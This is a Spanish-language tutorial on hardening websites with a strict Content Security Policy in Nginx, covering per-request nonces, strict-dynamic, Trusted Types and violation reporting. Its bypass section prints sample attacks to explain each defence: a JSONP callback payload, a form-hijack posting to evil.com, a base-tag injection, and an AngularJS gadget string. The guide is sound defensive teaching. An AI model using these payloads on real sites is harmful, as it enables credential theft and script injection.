Añade un token aleatorio tanto a la cabecera CSP como a tus etiquetas de script:

<Tabs>
  <TabPanel label="Cabecera CSP">
    ```nginx
    Content-Security-Policy: 
      script-src 'self' 'nonce-abc123def456';
    ```
  </TabPanel>
  <TabPanel label="HTML">
    ```html
    <script nonce="abc123def456">
      const theme = localStorage.getItem('theme');
      document.documentElement.classList.add(theme);
    </script>
    ```
  </TabPanel>
</Tabs>

**Fundamental:** el nonce debe ser:
- **Criptográficamente aleatorio** (al menos 128 bits / 16 bytes)
- **Único por petición** (nunca reutilices nonces)
- **Codificado** (base64 o hex — el `$request_id` de Nginx usa hex, que es válido según la especificación CSP)

---

## Nonces para sitios estáticos: el truco de Nginx

Este es el reto: los generadores de sitios estáticos (Astro, Next.js, Hugo) construyen el HTML en **tiempo de build**. Pero los nonces deben ser únicos por **petición**. ¿Cómo puede un HTML estático contener nonces dinámicos?

### La solución: sustitución de placeholders

<Mermaid caption="Inyección de nonce con Nginx para sitios estáticos" maxWidth="650px">

</Mermaid>

### Paso 1: usa placeholders en tus plantillas

En tus plantillas, usa un placeholder que Nginx reemplazará:

<FileContent filename="src/layouts/BaseLayout.astro" icon="simple-icons:astro">
```astro
---
// Layout component
---
<html>
  <head>
    <!-- Nginx will replace this placeholder -->
    <script is:inline nonce="CSP_NONCE_NGINX">
      const theme = localStorage.getItem('theme') || 'system';
      document.documentElement.dataset.theme = theme;
    </script>
  </head>
  <body>
    <slot />
  </body>
</html>
```
</FileContent>

### Paso 2: configura Nginx

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # ================================================
    # STEP 1: Generate unique nonce per request
    # ================================================
    # $request_id = 32-char hex string (128 bits entropy)
    set $cspNonce $request_id;

    # ================================================
    # STEP 2: Replace placeholder with real nonce
    # ================================================
    # NOTE: sub_filter requires uncompressed responses.
    # For proxied backends, add: proxy_set_header Accept-Encoding "";
    # For static files, ensure gzip is disabled or applied after sub_filter.
    sub_filter_once off;  # Replace ALL occurrences
    sub_filter_types text/html text/css application/javascript;
    sub_filter CSP_NONCE_NGINX $cspNonce;

    # ================================================
    # STEP 3: Set CSP header with same nonce
    # ================================================
    add_header Content-Security-Policy "
        default-src 'none';
        script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
        style-src 'self' 'unsafe-inline';
        img-src 'self' data:;
        font-src 'self';
        connect-src 'self';
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
        form-action 'self';
        upgrade-insecure-requests;
    " always;
    
    # ... rest of config
}
```
</FileContent>

<Callout type="info" icon="mdi:information">
  **Por qué `$request_id` es criptográficamente seguro:**
  
  El `$request_id` de Nginx proporciona:
  - **128 bits** de entropía (32 caracteres hexadecimales)
  - **Único por petición** — generado de nuevo cada vez
  - **Impredecible** — derivado de la aleatoriedad del sistema
  
  Esto supera la entropía mínima recomendada por CSP para nonces.
</Callout>

### Lo que el navegador ve

<Tabs>
  <TabPanel label="1. En disco">
    ```html
    <!-- Static file on disk -->
    <script nonce="CSP_NONCE_NGINX">
      const theme = localStorage.getItem('theme');
    </script>
    ```
  </TabPanel>
  <TabPanel label="2. Cabecera HTTP">
    ```http
    HTTP/2 200 OK
    Content-Security-Policy: script-src 'nonce-a1b2c3d4e5f6...' ...
    ```
  </TabPanel>
  <TabPanel label="3. HTML recibido">
    ```html
    <!-- What browser actually receives -->
    <script nonce="a1b2c3d4e5f6...">
      const theme = localStorage.getItem('theme');
    </script>
    ```
  </TabPanel>
</Tabs>

---

## Modo estricto con `'strict-dynamic'`

La keyword `'strict-dynamic'` es revolucionaria: permite que los scripts cargados por scripts de confianza también se ejecuten, sin necesitar sus propios nonces.

<Mermaid caption="Propagación de confianza con strict-dynamic" maxWidth="700px">

</Mermaid>

### Cómo funciona

<Code lang="html" title="Ejemplo de propagación de confianza">
```html
<!-- This script has a valid nonce -->
<script nonce="abc123">
  // This dynamically created script ALSO runs
  // because it inherits trust from the parent
  const script = document.createElement('script');
  script.src = 'https://cdn.example.com/analytics.js';
  document.head.appendChild(script);
</script>
```
</Code>

<Callout type="warning">
  **Comportamiento importante:** cuando `'strict-dynamic'` está presente, las fuentes de tipo allowlist como `'self'` o `https://example.com` se **ignoran** para la carga de scripts. Solo los nonces/hashes otorgan confianza inicial — los scripts cargados dinámicamente la heredan.
  
  Esto es intencionado y en realidad aumenta la seguridad.
</Callout>

### Cuándo usar `'strict-dynamic'`

<Table title="Casos de uso de strict-dynamic">
  <thead>
    <tr>
      <th>Escenario</th>
      <th>¿Usar strict-dynamic?</th>
      <th>Razón</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SPA con code splitting</td>
      <td data-status="success"><strong>Sí</strong></td>
      <td>Webpack/Vite cargan chunks dinámicamente</td>
    </tr>
    <tr>
      <td>Analytics (GA, Segment)</td>
      <td data-status="success"><strong>Sí</strong></td>
      <td>Los scripts de analytics suelen cargar scripts adicionales</td>
    </tr>
    <tr>
      <td>Widgets de terceros</td>
      <td data-status="success"><strong>Sí</strong></td>
      <td>Los widgets de chat y embeds cargan sus propias dependencias</td>
    </tr>
    <tr>
      <td>Sitio estático simple</td>
      <td data-status="warning">Opcional</td>
      <td>Si todos los scripts están en el HTML, los nonces por sí solos son suficientes</td>
    </tr>
    <tr>
      <td>Sin JavaScript</td>
      <td data-status="error">No</td>
      <td>Usa <code>script-src 'none'</code> en su lugar</td>
    </tr>
  </tbody>
</Table>

---

## La fórmula de CSP estricta

Según la [investigación de Google](https://web.dev/articles/strict-csp), una "CSP estricta" que realmente proteja contra XSS requiere estos elementos:

<CheckList title="Requisitos de CSP estricta">
  <li data-check="check">Usa **nonces** o **hashes** en lugar de allowlists de dominios</li>
  <li data-check="check">Incluye **`'strict-dynamic'`** para la carga dinámica de scripts</li>
  <li data-check="check">Establece **`object-src 'none'`** para bloquear plugins</li>
  <li data-check="check">Establece **`base-uri 'none'`** para prevenir la inyección de etiquetas base</li>
</CheckList>

<Callout type="info" icon="mdi:check-circle">
  **Compatibilidad de navegadores:** `strict-dynamic` es totalmente compatible con todos los navegadores modernos (Chrome 52+, Firefox 52+, Safari 15.4+, Edge 79+).
</Callout>

### La plantilla

<Code lang="nginx" title="Plantilla de CSP estricta">
```nginx
# The three essential directives for strict CSP
script-src 'nonce-$cspNonce' 'strict-dynamic';
object-src 'none';
base-uri 'none';
```
</Code>

### Por qué las allowlists no funcionan

<Callout type="warning" icon="mdi:alert">
  **El 94,72 % de las CSP basadas en allowlists se pueden eludir** ([Investigación de Google, 2016](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/))
  
  El análisis de los 15 dominios más comúnmente incluidos en allowlists reveló que **14 de ellos** contienen endpoints inseguros que los atacantes pueden explotar.
</Callout>

Los vectores de bypass más comunes incluyen:
- **Endpoints JSONP** en CDNs de confianza
- **Redirecciones abiertas** en dominios permitidos
- **Inyección de plantillas de AngularJS** en orígenes permitidos
- **Contenido subido por usuarios** servido desde dominios permitidos

---

## Interactivo: Construye tu CSP

Usa este constructor interactivo para crear una política y ver tu puntuación de seguridad en tiempo real:

<CSPBuilder title="Constructor de políticas CSP" />

---

## Técnicas de bypass de CSP y prevención

Entender cómo los atacantes eluden la CSP te ayuda a evitar errores comunes.

### 1. Endpoints JSONP

Los endpoints JSONP ejecutan callbacks controlados por el usuario, lo que los convierte en un vector de bypass clásico:

<BeforeAfter beforeLabel="Vulnerable" afterLabel="Protegido">
  <div slot="before">
    ```nginx
    # CSP trusts all of cdn.example.com
    script-src 'self' https://cdn.example.com;
    ```
    ```html
    <!-- Attacker exploits JSONP endpoint -->
    <script src="https://cdn.example.com/api?callback=alert(1)//"></script>
    ```
  </div>
  <div slot="after">
    ```nginx
    # Use nonces instead of domain allowlists
    script-src 'nonce-$cspNonce' 'strict-dynamic';
    ```
    ```html
    <!-- JSONP has no nonce - blocked! -->
    <script src="https://cdn.example.com/api?callback=alert"></script>
    <!-- Refused to execute script... -->
    ```
  </div>
</BeforeAfter>

### 2. Secuestro de formularios

Los atacantes pueden inyectar formularios para robar credenciales si no se establece `form-action`:

<Code lang="html" title="Ataque de secuestro de formularios">
```html
<!-- Attacker injects this before your login form -->
<form action="https://evil.com/steal">
  <!-- Your existing input fields get captured -->
</form>

<!-- Without form-action, the browser allows submission to evil.com! -->
```
</Code>

**Prevención:**
```nginx
form-action 'self';
```

### 3. Inyección de etiqueta base

<Code lang="html" title="Ataque con etiqueta base">
```html
<!-- Attacker injects this early in the document -->
<base href="https://evil.com/">

<!-- All your relative URLs now resolve to evil.com -->
<script src="/js/app.js"></script>  <!-- Loads https://evil.com/js/app.js -->
        <!-- Loads https://evil.com/images/logo.png -->
<a href="/login">Login</a>          <!-- Links to https://evil.com/login -->
```
</Code>

**Prevención:**
```nginx
base-uri 'none';
```

### 4. Script gadgets en bibliotecas permitidas

Algunas bibliotecas importantes contienen patrones que pueden explotarse para XSS cuando dicha biblioteca está permitida por CSP:

Según la [investigación de Sebastian Lekies et al.](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/), las bibliotecas más comunes contienen patrones explotables:

<Table title="Script gadgets en bibliotecas populares">
  <thead>
    <tr>
      <th>Biblioteca</th>
      <th>Tipo de gadget</th>
      <th>Vector de ataque</th>
      <th>Riesgo</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>AngularJS</strong> (1.x)</td>
      <td>Inyección de plantillas</td>
      <td><code>ng-app</code> + <code>&#123;&#123;constructor.constructor('alert(1)')()&#125;&#125;</code></td>
      <td data-status="error">Crítico</td>
    </tr>
    <tr>
      <td><strong>jQuery</strong> (&lt;3.0)</td>
      <td>XSS basado en selectores</td>
      <td><code>$(location.hash)</code> con entrada del usuario</td>
      <td data-status="warning">Alto</td>
    </tr>
    <tr>
      <td><strong>Require.js</strong></td>
      <td>Imports dinámicos</td>
      <td>Rutas de módulos controladas por el atacante</td>
      <td data-status="warning">Medio</td>
    </tr>
    <tr>
      <td><strong>Dojo Toolkit</strong></td>
      <td>Carga de módulos</td>
      <td><code>require()</code> con entrada del usuario</td>
      <td data-status="warning">Medio</td>
    </tr>
    <tr>
      <td><strong>Google Closure</strong></td>
      <td>Sistema de plantillas</td>
      <td>Renderizado inseguro de plantillas</td>
      <td data-status="warning">Medio</td>
    </tr>
  </tbody>
</Table>

<Callout type="keypoint">
  **El patrón es claro:** incluir CDNs que alojan estas bibliotecas en allowlists expone tu sitio a bypasses basados en gadgets. Los nonces + `strict-dynamic` previenen esto porque el atacante no puede adivinar el valor del nonce, independientemente de qué bibliotecas se carguen.
</Callout>

### 5. `object-src` ausente

Sin `object-src 'none'`, los atacantes pueden usar plugins para ejecutar código:

<Code lang="html" title="XSS basado en objetos">
```html
<!-- Flash-based XSS (legacy but still seen) -->
<object data="data:application/x-shockwave-flash;base64,..." 
        type="application/x-shockwave-flash">
</object>

<!-- PDF with JavaScript -->
<embed src="malicious.pdf" type="application/pdf">
```
</Code>

**Prevención:**
```nginx
object-src 'none';
```

---

## Trusted Types: La siguiente evolución

Mientras que la CSP tradicional previene la inyección de etiquetas `<script>`, no protege contra **XSS basado en DOM** donde JavaScript escribe directamente en sinks peligrosos:

<Code lang="javascript" title="Vulnerabilidad de XSS basado en DOM">
```javascript
// These are dangerous DOM sinks
element.innerHTML = userInput;           // XSS if userInput contains HTML
location.href = userInput;               // Open redirect/XSS
document.write(userInput);               // XSS
eval(userInput);                         // Remote code execution
```
</Code>

**Trusted Types** obliga a los desarrolladores a sanitizar los datos antes de pasarlos a estos sinks.

<StateNotice
  type="experimental"
  feature="Trusted Types"
  title="Trusted Types es experimental pero está madurando"
/>

### Cómo funcionan los Trusted Types

<Mermaid caption="Trusted Types impone la sanitización en los sinks del DOM" maxWidth="750px">

</Mermaid>

### Activar Trusted Types

<FileContent filename="nginx.conf (CSP con Trusted Types)" icon="devicon:nginx">
```nginx
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    
    # Trusted Types enforcement
    require-trusted-types-for 'script';
    trusted-types default;
" always;
```
</FileContent>

### Crear una política de Trusted Types

<Code lang="javascript" title="Política de sanitización con Trusted Types">
```javascript
// Create a policy that sanitizes HTML
if (window.trustedTypes && trustedTypes.createPolicy) {
  const sanitizerPolicy = trustedTypes.createPolicy('default', {
    createHTML: (input) => {
      // Use DOMPurify or similar sanitizer
      return DOMPurify.sanitize(input);
    },
    createScriptURL: (input) => {
      // Only allow same-origin URLs
      const url = new URL(input, window.location.origin);
      if (url.origin !== window.location.origin) {
        throw new Error('Cross-origin scripts not allowed');
      }
      return url.href;
    }
  });
}

// Now innerHTML requires TrustedHTML
element.innerHTML = userInput;  // TypeError: requires TrustedHTML
element.innerHTML = sanitizerPolicy.createHTML(userInput);  // Works!
```
</Code>

<Callout type="info">
  **Consejo de adopción:** Empieza con `Content-Security-Policy-Report-Only` para Trusted Types para encontrar violaciones sin romper tu sitio:
  
  ```nginx
  add_header Content-Security-Policy-Report-Only "require-trusted-types-for 'script'; report-uri /tt-reports";
  ```
</Callout>

---

## Avanzado: CSP por endpoint

Diferentes partes de tu sitio pueden necesitar políticas distintas:

- **Paneles de administración**: CSP más estricta
- **Endpoints de API**: No se necesita CSP (el JSON no se ejecuta)
- **Assets estáticos**: Relajada para previsualizaciones en redes sociales
- **Páginas con contenido generado por usuarios**: Restricciones adicionales

### Implementación

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # Default: strict CSP for HTML pages
    location / {
        try_files $uri $uri/ =404;
        include /etc/nginx/snippets/security-headers-strict.conf;
    }
    
    # API: no CSP needed for JSON
    location /api/ {
        proxy_pass http://backend;
        # No CSP header - JSON isn't executed by browsers
    }
    
    # Assets: relaxed for social media crawlers
    location /assets/ {
        expires 1y;
        add_header Cache-Control "public, immutable";
        include /etc/nginx/snippets/security-headers-assets.conf;
    }
}
```
</FileContent>

<Tabs>
  <TabPanel label="Estricta (páginas HTML)">
    ```nginx
    # /etc/nginx/snippets/security-headers-strict.conf
    add_header Content-Security-Policy "
        default-src 'none';
        script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
        ...
    " always;
    
    # Prevent embedding
    add_header Cross-Origin-Resource-Policy "same-origin" always;
    ```
  </TabPanel>
  <TabPanel label="Relajada (Assets)">
    ```nginx
    # /etc/nginx/snippets/security-headers-assets.conf
    add_header Content-Security-Policy "
        default-src 'none';
        img-src 'self';
        font-src 'self';
    " always;
    
    # Allow social media to fetch images for previews
    add_header Cross-Origin-Resource-Policy "cross-origin" always;
    ```
  </TabPanel>
</Tabs>

---

## Migración: de Report-Only a aplicación

**Nunca despliegues una CSP estricta directamente en producción.** Utiliza un enfoque por fases:

<StepByStep title="Proceso seguro de migración de CSP">
  <li>
    **Desplegar en modo report-only (1-2 semanas)**
    
    Usa `Content-Security-Policy-Report-Only` para registrar violaciones sin bloquear nada. Monitoriza tus logs para entender qué se rompería.
  </li>
  <li>
    **Analizar y corregir violaciones**
    
    Revisa los informes y soluciona los problemas:
    - Inline event handlers → `addEventListener()`
    - Llamadas a `eval()` → `JSON.parse()` o refactorización
    - Nonces faltantes en scripts inline
    - Scripts de terceros que necesitan `strict-dynamic`
  </li>
  <li>
    **Activar la aplicación gradualmente**
    
    Cambia de `Report-Only` a `Content-Security-Policy`. Mantén una cabecera report-only para probar futuras políticas más estrictas.
  </li>
</StepByStep>

### Fase 1: Report-Only

<Code lang="nginx" title="Modo report-only">
```nginx
# Logs violations but doesn't block anything
add_header Content-Security-Policy-Report-Only "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    upgrade-insecure-requests;
    report-uri /csp-reports;
" always;
```
</Code>

### Fase 2: Corregir problemas comunes

<CheckList title="Problemas comunes a corregir">
  <li data-check="warning">**Inline event handlers** → Convertir `onclick="..."` a `addEventListener()`</li>
  <li data-check="warning">**Uso de `eval()`** → Reemplazar con `JSON.parse()` o refactorizar</li>
  <li data-check="warning">**Nonces faltantes** → Añadir `nonce="CSP_NONCE_NGINX"` a los scripts inline</li>
  <li data-check="warning">**Scripts de terceros** → Verificar que `'strict-dynamic'` los cubre</li>
  <li data-check="warning">**Estilos inline en JS** → Usar clases CSS o CSS custom properties</li>
</CheckList>

### Fase 3: Aplicar

<Code lang="nginx" title="Modo de aplicación">
```nginx
# Now blocking violations
add_header Content-Security-Policy "..." always;

# Optional: keep report-only for testing stricter future policies
add_header Content-Security-Policy-Report-Only "...even-stricter-policy..." always;
```
</Code>

---

## Configurar el reporting de CSP

El reporting integrado de CSP te informa cuando se producen violaciones — es esencial para la depuración y la detección de ataques.

<StateNotice
  type="deprecated"
  feature="report-uri"
  title="report-uri está obsoleto"
  alternative="report-to"
  alternativeUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to"
/>

<Callout type="info">
  **Para máxima compatibilidad, usa ambos:** Chrome 70+ utiliza `report-to` e ignora `report-uri`. Firefox y Safari aún dependen de `report-uri`.
</Callout>

### Opción 1: Logging simple con Nginx

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
# Reporting endpoint
location /csp-reports {
    access_log /var/log/nginx/csp-reports.log;
    return 204;
}
```
</FileContent>

<FileContent filename="Cabecera CSP con reporting" icon="devicon:nginx">
```nginx
# Modern Reporting API (Chrome 70+)
add_header Reporting-Endpoints 'csp-endpoint="/csp-reports"' always;

# CSP with both legacy and modern reporting
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    ...
    report-uri /csp-reports;
    report-to csp-endpoint;
" always;
```
</FileContent>

### Opción 2: Servicios de terceros

Servicios como [Report URI](https://report-uri.com/) proporcionan dashboards y análisis:

<Code lang="nginx" title="Reporting con servicio externo">
```nginx
report-uri https://your-subdomain.report-uri.com/r/d/csp/enforce;
report-to csp-endpoint;
```
</Code>

### Formato del informe de violación

Los navegadores envían informes JSON como este:

<FileContent filename="csp-violation-report.json" icon="mdi:code-json">
```json
{
  "csp-report": {
    "document-uri": "https://example.com/page",
    "blocked-uri": "https://evil.com/script.js",
    "violated-directive": "script-src-elem",
    "effective-directive": "script-src-elem",
    "original-policy": "script-src 'nonce-abc123' 'strict-dynamic'",
    "disposition": "enforce",
    "status-code": 200,
    "script-sample": "",
    "line-number": 42,
    "column-number": 15,
    "source-file": "https://example.com/page"
  }
}
```
</FileContent>

---

## Refactorizar código para CSP

Algunos patrones comunes son incompatibles con una CSP estricta. Así es como se corrigen:

### Inline event handlers → addEventListener

<BeforeAfter beforeLabel="Bloqueado por CSP" afterLabel="Compatible con CSP">
  <div slot="before">
    ```html
    <button onclick="submitForm()">Submit</button>
    <a href="javascript:doSomething()">Click</a>
    <form onsubmit="validate()">...</form>
    ```
  </div>
  <div slot="after">
    ```html
    <button id="submitBtn">Submit</button>
    <a href="#" id="actionLink">Click</a>
    <form id="myForm">...</form>
    
    <script nonce="CSP_NONCE_NGINX">
      document.getElementById('submitBtn')
        .addEventListener('click', submitForm);
      
      document.getElementById('actionLink')
        .addEventListener('click', (e) => {
          e.preventDefault();
          doSomething();
        });
      
      document.getElementById('myForm')
        .addEventListener('submit', validate);
    </script>
    ```
  </div>
</BeforeAfter>

### eval() → JSON.parse()

<BeforeAfter beforeLabel="Usa eval() - Bloqueado" afterLabel="Usa JSON.parse() - Permitido">
  <div slot="before">
    ```javascript
    // Dangerous - blocked by CSP
    const data = eval('(' + jsonString + ')');
    setTimeout('doSomething()', 1000);
    const fn = new Function('x', 'return x * 2');
    ```
  </div>
  <div slot="after">
    ```javascript
    // Safe - works with strict CSP
    const data = JSON.parse(jsonString);
    setTimeout(doSomething, 1000);
    const fn = (x) => x * 2;
    ```
  </div>
</BeforeAfter>

### Estilos inline en JS → CSS custom properties

<BeforeAfter beforeLabel="Usando setAttribute (puede ser bloqueado)" afterLabel="CSS Custom Properties">
  <div slot="before">
    ```javascript
    // setAttribute('style', ...) can be blocked by style-src
    element.setAttribute('style', 'color:' + color);
    // Note: element.style.property = value is NOT blocked by CSP,
    // but using CSS custom properties is more maintainable
    ```
  </div>
  <div slot="after">
    ```javascript
    // Works with strict CSP and is more maintainable
    element.style.setProperty('--user-color', userColor);
    element.classList.add('highlighted');
    ```
    ```css
    .highlighted {
      background: var(--user-color, #fff);
    }
    ```
  </div>
</BeforeAfter>

---

## Pruebas y validación

### Herramientas de desarrollo del navegador

Tu mejor aliado para depurar CSP. Abre F12 → Consola para ver las violaciones en tiempo real:

<TerminalOutput title="Violación de CSP en la consola de Chrome">
Refused to execute inline script because it violates the following Content 
Security Policy directive: "script-src 'nonce-abc123' 'strict-dynamic'". 
Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce 
('nonce-...') is required to enable inline execution.
</TerminalOutput>

### Herramientas online

<Table title="Herramientas de prueba de CSP">
  <thead>
    <tr>
      <th>Herramienta</th>
      <th>Propósito</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://observatory.mozilla.org/" target="_blank" rel="noopener noreferrer"><strong>Mozilla Observatory</strong></a></td>
      <td>Evaluación completa de cabeceras de seguridad (A+ posible)</td>
    </tr>
    <tr>
      <td><a href="https://csp-evaluator.withgoogle.com/" target="_blank" rel="noopener noreferrer"><strong>Google CSP Evaluator</strong></a></td>
      <td>Encuentra bypasses lógicos en tu política (muy recomendado)</td>
    </tr>
    <tr>
      <td><a href="https://securityheaders.com/" target="_blank" rel="noopener noreferrer"><strong>SecurityHeaders.com</strong></a></td>
      <td>Análisis rápido de cabeceras y puntuación</td>
    </tr>
    <tr>
      <td><a href="https://report-uri.com/home/hash" target="_blank" rel="noopener noreferrer"><strong>CSP Hash Generator</strong></a></td>
      <td>Genera hashes para scripts inline</td>
    </tr>
  </tbody>
</Table>

---

## Errores comunes

### 1. Usar `'unsafe-inline'` para scripts

<BeforeAfter beforeLabel="Anula la protección de CSP" afterLabel="Usa nonces en su lugar">
  <div slot="before">
    ```nginx
    # Your CSP is now useless for XSS protection
    script-src 'self' 'unsafe-inline';
    ```
  </div>
  <div slot="after">
    ```nginx
    # Actual protection
    script-src 'self' 'nonce-$cspNonce';
    ```
  </div>
</BeforeAfter>

### 2. Fuentes excesivamente permisivas

<Code lang="nginx" title="NO HAGAS ESTO: Confiar en esquemas completos">
```nginx
# DANGER: Trusts the entire internet!
script-src 'self' https:;
img-src *;
```
</Code>

Esto permite que cualquier script HTTPS se ejecute, anulando completamente el propósito de CSP.

### 3. Olvidar directivas obligatorias

<BeforeAfter beforeLabel="Incompleta - Eludible" afterLabel="CSP estricta completa">
  <div slot="before">
    ```nginx
    # Missing critical directives!
    script-src 'nonce-$cspNonce';
    ```
  </div>
  <div slot="after">
    ```nginx
    # All required directives present
    script-src 'nonce-$cspNonce' 'strict-dynamic';
    object-src 'none';
    base-uri 'none';
    ```
  </div>
</BeforeAfter>

### 4. Olvidar `always` en Nginx

<BeforeAfter beforeLabel="Solo respuestas 2xx" afterLabel="Todas las respuestas incluidas las de error">
  <div slot="before">
    ```nginx
    # CSP missing on 404, 500 pages!
    add_header Content-Security-Policy "...";
    ```
  </div>
  <div slot="after">
    ```nginx
    # CSP on ALL responses
    add_header Content-Security-Policy "..." always;
    ```
  </div>
</BeforeAfter>

Sin `always`, las cabeceras CSP no se envían en páginas de error (404, 500), dejando esas páginas vulnerables.

### 5. Trampa de herencia de `add_header`

<Code lang="nginx" title="Las cabeceras se sobrescriben en locations anidados">
```nginx
location / {
    add_header Content-Security-Policy "..." always;
    add_header X-Frame-Options "DENY" always;
}

location /assets/ {
    # WARNING: This REPLACES parent headers, not adds to them!
    add_header Cache-Control "public, immutable" always;
    # CSP and X-Frame-Options are now MISSING here!
}
```
</Code>

**Solución:** Usa snippets con `include` para compartir cabeceras entre locations.

---

## Ejemplo completo de producción

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    listen [::]:443 ssl;
    http2 on;
    server_name example.com;
    
    root /var/www/example.com;
    index index.html;
    
    # ================================================
    # CSP Nonce Setup
    # ================================================
    set $cspNonce $request_id;
    sub_filter_once off;
    sub_filter_types text/html text/css application/javascript;
    sub_filter CSP_NONCE_NGINX $cspNonce;
    
    # ================================================
    # Build CSP Header
    # ================================================
    set $csp "default-src 'none'; ";
    set $csp "${csp}script-src 'self' 'nonce-${cspNonce}' 'strict-dynamic'; ";
    set $csp "${csp}style-src 'self' 'unsafe-inline'; ";
    set $csp "${csp}img-src 'self' data:; ";
    set $csp "${csp}font-src 'self'; ";
    set $csp "${csp}connect-src 'self'; ";
    set $csp "${csp}worker-src 'self'; ";
    set $csp "${csp}object-src 'none'; ";
    set $csp "${csp}base-uri 'none'; ";
    set $csp "${csp}frame-ancestors 'none'; ";
    set $csp "${csp}form-action 'self'; ";
    set $csp "${csp}upgrade-insecure-requests; ";
    set $csp "${csp}report-uri /csp-reports; ";
    set $csp "${csp}report-to csp-endpoint";
    
    # ================================================
    # Security Headers
    # ================================================
    add_header Reporting-Endpoints 'csp-endpoint="/csp-reports"' always;
    add_header Content-Security-Policy $csp always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
    add_header Cross-Origin-Opener-Policy "same-origin" always;
    # Note: require-corp is strict - external resources (fonts, CDNs) must provide
    # CORP/CORS headers. Use "credentialless" for broader compatibility.
    add_header Cross-Origin-Embedder-Policy "require-corp" always;
    add_header Cross-Origin-Resource-Policy "same-origin" always;
    
    # ================================================
    # Routes
    # ================================================
    location / {
        try_files $uri $uri/ =404;
    }
    
    # CSP Violation Reporting Endpoint
    location /csp-reports {
        access_log /var/log/nginx/csp-reports.log;
        return 204;
    }
    
    # Static assets with relaxed CORP for social media
    # Note: add_header in location blocks overrides parent-level headers,
    # so we must re-include essential security headers here
    location /assets/ {
        expires 1y;
        add_header Cache-Control "public, immutable" always;
        add_header Cross-Origin-Resource-Policy "cross-origin" always;
        # Re-include essential security headers
        add_header X-Content-Type-Options "nosniff" always;
        add_header Referrer-Policy "strict-origin-when-cross-origin" always;
        add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
    }
}
```
</FileContent>

---

## Tu camino con CSP: Resumen

<StepByStep title="Hoja de ruta para implementar CSP">
  <li>**Empieza simple** — Despliega `default-src 'self'` en modo report-only</li>
  <li>**Añade directivas progresivamente** — Scripts, estilos, imágenes, etc.</li>
  <li>**Gestiona los scripts inline** — Muévelos a archivos, usa hashes o implementa nonces</li>
  <li>**Para sitios estáticos** — Usa `sub_filter` de Nginx para inyección de nonces</li>
  <li>**Aplica la CSP estricta** — Añade `'strict-dynamic'`, `object-src 'none'`, `base-uri 'none'`</li>
  <li>**Configura el reporting** — Monitoriza las violaciones con `report-uri` / `report-to`</li>
  <li>**Aplica gradualmente** — Cambia de report-only a aplicación tras las pruebas</li>
  <li>**Mantén e itera** — Sigue monitorizando, actualiza según evolucione tu aplicación</li>
</StepByStep>

<Callout type="success" icon="mdi:trophy">
  **Resultado:** Siguiendo esta guía, puedes conseguir una calificación A+ en [Mozilla Observatory](https://observatory.mozilla.org/) manteniendo la funcionalidad completa del sitio y protegiendo a tus usuarios de ataques XSS.
</Callout>
